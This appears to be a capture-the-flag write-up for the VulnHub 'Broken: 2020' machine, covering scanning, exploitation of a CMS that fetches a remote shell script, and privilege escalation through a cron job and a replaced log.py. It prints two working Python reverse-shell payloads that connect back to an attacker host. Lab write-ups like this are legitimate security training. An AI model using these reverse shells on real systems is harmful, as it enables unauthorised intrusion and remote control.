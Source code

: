 # VulnHub-Broken-2020:1 
## Target IP Address 
>>
     nmap -T5 192.168.1.1/24
 
#### IP Address: **192.168.1.232**
* * * 
## Scanning & Enumeration
<br />

* * * 
### <ins>nmap 
>>
     nmap -A -O -p- -T5 -oN nmap.txt 192.168.1.232

PORT   STATE SERVICE VERSION
**22/tcp** open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 7e:f3:33:8c:be:0c:ed:d7:0e:c6:67:cc:73:bf:c0:ab (RSA)
|   256 ee:ed:74:02:0d:3f:7d:6d:45:aa:ff:f3:3a:d0:1a:d9 (ECDSA)
|_  256 d1:18:a9:ef:7f:b6:c8:a9:30:52:c8:e6:b6:ec:64:80 (ED25519)
**80/tcp** open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Coming Soon
MAC Address: 08:00:27:2A:C0:85 (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Synology DiskStation Manager 5.2-5644 (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![](@attachment/Clipboard_2020-09-27-22-16-36.png)
* * * 
<br />

* * * 
### <ins>nikto
>>
     nikto -h http://192.168.1.232

![](@attachment/Clipboard_2020-09-27-22-30-36.png)
* * *
<br />

* * * 
### <ins> dirbuster
![](@attachment/Clipboard_2020-09-27-22-32-09.png)
* * * 
<br />

* * * 
### <ins>http://192.168.1.232

![](@attachment/Clipboard_2020-09-27-22-26-02.png)

#### <ins> /images
![](@attachment/Clipboard_2020-09-27-22-30-01.png)
#### <ins> /cms
![](@attachment/Clipboard_2020-09-27-22-35-23.png)
> TrustMeCMS doesn't exist
#### <ins> /cms/index.php
> On clicking install

![](@attachment/Clipboard_2020-09-27-22-42-34.png)
 - Website defaced from installation of the cms 
 - Enumerating CMS

![](@attachment/Clipboard_2020-09-27-22-40-47.png)
> ## **Flag- 1**  
* * * 
<br />

## <ins> dirb on "/cms"

 DIRECTORY: **http://192.168.1.232/cms/cc/**

![](@attachment/Clipboard_2020-09-27-22-44-34.png)  
* * * 
<br />

### <ins>/cms/cc

![](@attachment/Clipboard_2020-09-27-22-45-38.png)
<br />

## Exploitation 
- The page is looking for a file from a remote server 

![](@attachment/Clipboard_2020-09-27-22-49-37.png)
- Set up a python server to see what it is looking for.

![](@attachment/Clipboard_2020-09-27-22-52-39.png)

![](@attachment/Clipboard_2020-09-27-22-55-45.png)
 - It is looking for a shell with the given name:
/1ce1dec6d9e6f67186e1bd9f50e5cdb5.sh

- Try running a shellscript: 
>>
     id
![](@attachment/Clipboard_2020-09-27-23-03-11.png)

- We have RCE
- Spwan a reverse shell, with nc listening on 1234
>>
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
![](@attachment/Clipboard_2020-09-27-23-05-21.png)

- We have a reverse shell 

![](@attachment/Clipboard_2020-09-27-23-06-51.png)

![](@attachment/Clipboard_2020-09-27-23-12-22.png)
> ## **Flag- 2** 
<br />

### Enumerating 

![](@attachment/Clipboard_2020-09-27-23-15-26.png)

![](@attachment/Clipboard_2020-09-27-23-16-40.png)

- We can write a python script to spawn a shell and then, replace log.py with it.
>>
    import socket
    import subprocess
    import os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.1.6",4444));os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])

![](@attachment/Clipboard_2020-09-27-23-20-44.png)

![](@attachment/Clipboard_2020-09-27-23-23-26.png)

- Wait for a few seconds for the python file to get executed. 
* * * 

- ### **Obtained Reverse Shell**
  - We have become user Alice 

![](@attachment/Clipboard_2020-09-27-23-24-55.png)

- Enumerating 

![](@attachment/Clipboard_2020-09-27-23-27-00.png)

> ## **Flag- 3** 

![](@attachment/Clipboard_2020-09-27-23-29-36.png)

- We found a note 

![](@attachment/Clipboard_2020-09-27-23-30-49.png)

![](@attachment/Clipboard_2020-09-27-23-35-12.png)

- This meant that a job was running every minute. 
- It is looking for the backup file which is in /back
![](@attachment/Clipboard_2020-09-27-23-45-49.png)

- Contents:

![](@attachment/Clipboard_2020-09-27-23-45-09.png)

- Here the  bot (scripts) are picking up the contents in the directory specified in “path.txt” and copying it in the current directory
- Hence we can read the contents of /root by 
>>
      echo "/root" > path.txt
 * * * 
 <br />

 # **-<ins>Root Flag</ins>-** 

![](@attachment/Clipboard_2020-09-27-23-43-19.png)

* * * 
* * * 
